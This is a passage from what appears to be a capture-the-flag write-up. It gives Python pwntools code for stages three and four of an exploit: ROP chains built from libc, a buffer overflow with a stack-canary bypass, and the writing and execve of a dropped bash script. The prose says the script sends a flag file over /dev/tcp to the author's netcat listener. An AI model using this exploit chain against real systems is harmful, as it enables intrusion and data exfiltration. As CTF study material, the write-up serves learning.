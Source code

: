 ```py
    rop = ROP(libc)
    rop.read(0, exe.bss(), len(bash_code))
    rop.open(filename, 66) #O_CREAT|O_RDWR
    rop.write(fd, exe.bss(), len(bash_code))
    rop.close(fd)
    rop.exit(0)

    payload = flat(
        cyclic(offset),
        rop.chain()
    )
    
    io.sendline(b"2")
    io.sendline(payload)
    io.send(bash_code)
    io.close()
```

Here we do the inverse of Stage 2. We read some file data into bss, then we write it to file. We choose `./0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz` as our filename cause it satisfies these requirements:
* It is a string that exists within LIBC.
* It starts with `./` (This is required for execve)
* It ends with a nullbyte

We don't have a way to directly read data into the edr process. We could create a string with ROP but it would add a lot of complexity to the ROP chain.

The bash payload we provide reads the content of /opt/flag into /dev/tcp, sending it to our internet facing netcat listener. We need to make sure it has a shebang line so we can run it with execve.

#### Stage 4 - Executing our payload
```py
def stage4(canary):
    global io
    io = conn()
    io.recv()
    pmon = procdump(b"process_monitor")
    edr = procdump(b"edr")
    exe.address = get_base(pmon, b"/process_monitor")
    libc_addr = get_base(pmon, b"libc")
    libc2_addr = get_base(edr, b"libc")

    libc.address = libc_addr

    rop = ROP(libc)
    rop.read(0, exe.bss(), 2048)
    rop.open(exe.bss(), 0)

    payload = flat(
        cyclic(offset),
        rop.chain()
    )

    libc.address = libc2_addr
    rop2 = ROP(libc)
    rop2.chmod(next(libc.search(b"./0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\x00")), 0o777)
    rop2.execve(next(libc.search(b"./0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\x00")), 0, 0)
    
    io.sendline(b"2")
    io.sendline(payload)
    io.send(cyclic(1024+8) + p64(canary) + b"AAAAAAAA" + rop2.chain())
```